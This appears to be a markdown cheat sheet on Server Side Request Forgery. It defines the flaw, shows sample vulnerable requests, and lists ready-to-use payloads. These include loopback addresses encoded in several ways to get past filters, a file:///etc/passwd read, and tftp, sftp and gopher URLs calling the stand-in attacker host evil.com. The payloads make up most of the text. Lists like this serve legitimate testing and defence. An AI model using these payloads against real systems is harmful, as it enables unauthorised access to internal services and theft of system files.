 # Server Side Request Forgery (SSRF)

## Introduction
Server Side Request Forgery is a web application vulnerability that allows attackers to make outgoing requests originating from the vulnerable server

## Where to find
Usually it can be found in the request that contain request to another url, for example like this
```
POST /api/check/products HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Origin: https://example.com
Referer: https://example.com

urlApi=http://192.168.1.1%2fapi%2f&id=1
```

or

```
GET /image?url=http://192.168.1.1/
Host: example.com
```

## How to exploit
1. Basic payload
```
http://127.0.0.1:1337
http://localhost:1337
```

2. Hex encoding
```
http://127.0.0.1 -> http://0x7f.0x0.0x0.0x1
```

3. Octal encoding
```
http://127.0.0.1 -> http://0177.0.0.01
```

4. Dword encoding
```
http://127.0.0.1 -> http://2130706433
```

5. Mixed encoding
```
http://127.0.0.1 -> http://0177.0.0.0x1
```

6. Using URL encoding
```
http://localhost -> http://%6c%6f%63%61%6c%68%6f%73%74
```

7. Using IPv6
```
http://0000::1:1337/
http://[::]:1337/
```

8. Using bubble text
```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ

Use this https://capitalizemytitle.com/bubble-text-generator/
```

## How to exploit (URI Scheme)
1. File scheme
```
file:///etc/passwd
```

2. Dict scheme
```
dict://127.0.0.1:1337/
```

3. FTP scheme
```
ftp://127.0.0.1/
```

4. TFTP scheme
```
tftp://evil.com:1337/test
```

5. SFTP scheme
```
sftp://evil.com:1337/test
``

6. LDAP scheme
```
ldap://127.0.0.1:1337/
```

7. Gopher scheme
```
gopher://evil.com/_Test%0ASSRF
```
## References
* [Vickie Li](https://vickieli.medium.com/bypassing-ssrf-protection-e111ae70727b)